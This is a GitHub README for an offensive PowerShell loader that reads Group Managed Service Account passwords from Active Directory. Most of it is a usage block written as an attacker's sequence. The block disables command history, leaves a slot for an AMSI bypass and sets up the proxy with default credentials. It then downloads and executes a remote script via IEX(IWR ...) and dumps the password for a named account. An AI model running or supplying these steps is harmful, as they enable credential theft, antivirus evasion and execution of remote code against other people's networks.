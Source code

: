 # Invoke-GMSAPasswordReader

## The .Net assembly is based on my modified fork https://github.com/ricardojba/GMSAPasswordReader.

[PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style .Net Assembly loader for the [GMSAPasswordReader](https://github.com/ricardojba/GMSAPasswordReader).

Usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-GMSAPasswordReader/main/Invoke-GMSAPasswordReader.ps1')

Invoke-GMSAPasswordReader -Command "--AccountName jkohler"
```

## Credits

[rvazarkar] for the original [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader).
